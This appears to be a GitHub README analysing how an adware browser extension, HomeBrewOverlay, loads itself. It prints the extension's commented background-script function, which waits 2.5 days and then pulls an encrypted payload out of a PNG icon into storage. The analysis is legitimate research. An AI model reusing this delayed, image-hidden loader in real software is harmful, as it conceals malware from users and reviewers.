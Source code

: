 Two mentions of the generated overlay (HomeBrewOverlay) can be found at [Reddit](https://www.reddit.com/r/duckduckgo/comments/az4do6/mystery_continue_overlay_on_duckduckgo/) (Mar 2019) and [StackOverflow](https://stackoverflow.com/questions/54872477/find-the-source-that-added-the-following-html-in-a-page-on-firefox) (Feb 2019).

## :bento: Components in Package

- *install/bg.js* - Background script. Runs when extension is loaded and is independent of any browser tab/window.
- *install/content.js* - Content script. Runs in the context of the webpage.
- *icons/cross.png* - Image of Lithuanian flag. Contains an encrypted payload.

## :link: **Loading Chain**

This adware's code contain various unused and misleadingly-named functions. In this short analysis I will focus only on how this adware loads itself, and leave analysis of effects for a later date.

### Step 1

*bg.js* runs and sets an obfuscated timestamp value in `storage.local` and `storage.sync`. 2.5 days later, the code loads *icons/cross.png*, removes the first 250 bytes and stores the remainder into a variable called `cross` in `storage.local`.

[***install/bg.js***](https://github.com/rainyrainyday/HomebrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/bg.js): [Enfka()](https://github.com/rainyrainyday/HomeBrewOverlay/blob/master/Unzipped/2.3.0%20-%20%7B0aa583da-e323-42f2-b4d2-0bc61b493171%7D/install/bg.js#L114)

```javascript
function Enfka() {
  var a = Math.abs(chrome.runtime.id.split("").reduce(function(a, b) {
            a = (a << 5) - a + b.charCodeAt(0); return a & a;
          }, 0)) % 1000, b = btoa(a).replace(/=/g, "");

  chrome.storage.sync.get(null, function(c) {
    // RAIN: Timestamp value set
    if (c = c[b]) {
      if (c /= a,
          c = ((new Date).getTime() - c) / 3600000 / 24,
          console.log(c), 2.5 < c) { // RAIN: More than 2.5 days

          c = browser.extension.getURL("icons/cross.png");
          var d = new XMLHttpRequest;
          d.onreadystatechange = function(a) {
            if (this.readyState === XMLHttpRequest.DONE && 200 === this.status) {
              a = {};
              var b = this.responseText.indexOf("substring") + 9;
              // RAIN: Extract last 12565 bytes
              a.cross = this.responseText.substring(b);
              chrome.storage.local.set(a);
            }
          };
          d.open("GET", c, !0); d.send(null);
      }
    // RAIN: Timestamp value not set
    } else {
      c = (new Date).getTime() * a,
      d = {}, chrome.storage.local.set((d[b] = c, d), function() {}),
      d = {}, chrome.storage.sync.set((d[b] = c, d), function() {});
    }
  });
}
```
